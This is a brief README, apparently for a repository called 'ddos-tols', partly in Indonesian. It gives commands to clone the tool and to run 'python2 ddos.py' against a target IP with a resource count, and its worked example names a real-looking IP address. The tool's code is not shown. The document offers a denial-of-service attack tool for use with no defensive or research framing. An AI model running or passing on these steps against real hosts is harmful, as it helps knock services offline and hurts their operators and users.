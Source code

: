 # DDOS TOLS ERROR CODE

## 1. Download Script
- ```git clone https://www.github.com/firdaus-rx/ddos-tols```
- ```cd ddos-tols```

## 2. Jalankan Tols 
- ```python2 ddos.py -t [IP_TARGET] -r [--resource]```

## 3. Example 
- ```python2 ddos.py -t 141.124.13.12 -r 1000 ```
